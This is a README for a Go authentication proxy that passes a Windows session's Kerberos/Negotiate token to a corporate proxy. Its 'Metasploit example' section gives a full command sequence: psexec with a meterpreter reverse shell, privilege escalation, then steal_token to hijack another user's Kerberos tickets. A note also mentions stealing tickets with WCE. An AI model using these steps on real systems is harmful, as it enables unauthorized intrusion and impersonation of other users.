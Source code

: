 # Authentication-proxy

Simple, performing authentication proxy. It injects the current session Kerberos token to the communication between a client (unable to perform the negotiate authentication scheme) and a corporate proxy accessible thtough Negotiate.

## Which is the problem, exactly ?

Many package managers, source control managers are not able to perform a Negotiate exchange to authenticate the communication. This means that npm, git, docker, bower and so on will be unable to pass through a corporate proxy.

Some tools, like CNTLM, allow you to pass your NTLM token to the proxy. This is a different protocol, less secure than Negotiate. A patch for CNTLM allows you to use the Negotiate protocol, but no binary is available nowadays. Moreover, in my personal  environment, CNTLM is slow. It won't be able to follow the rhythm of the exchanges between npm and the npm registry.

(Please note that the current code doesn't allow you to complete the task described above)

Building
--------

The following command should build the application. It is a little bit large, but it should not require any dependencies from target the systems.

```
go build src\gssapi-proxy.go
```

Metasploit example
------------------

The following example exploits an other user, and runs the proxy remotely.

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhost x.x.x.x
set smbdomain localdomain
set smbuser user
set smbpass password
exploit
# ... elevate to Administrator / SYSTEM
upload gssapi-proxy.exe /windows/system32/gssapi-proxy.exe
# Pick process that belongs to the user that has valid kerberos tickets!
ps
steal_token PID 
getuid
# Should show correct user
shell
cd /windows/system32/
gssapi-proxy.exe
# Should work, connect your browser to the proxy
# ....
# Reverse back to admin/system when you are done
rev2self
```

Notes
-----

* You must run the application as user that has valid kerberos login and tickets. Although they can later be stolen (at least WCE 1.2+ can do that) and moved to other computers, they can not initially be generated without authenticating against KDC.
* Only the most common flags are set when generating tokens. For instance delegation (ISC_REQ_DELEGATE) is not allowed for kerberos keys by default. Please see SSPI [documentation](http://msdn.microsoft.com/en-us/library/Windows/desktop/aa375509(v=vs.85).aspx) for more information if you run into problems.
* Does not reply to mutual authentication request, but it's probably somewhat rare to bump into with web applications.
* 64-bit platforms should still offer 32-bit compatible library/API so the application should compile and work. There's afaik no reason why the application should be 64-bit.
* The application does not add proxy headers, or manipulate any other headers besides Www-Authenticate/Authorization intentionally.

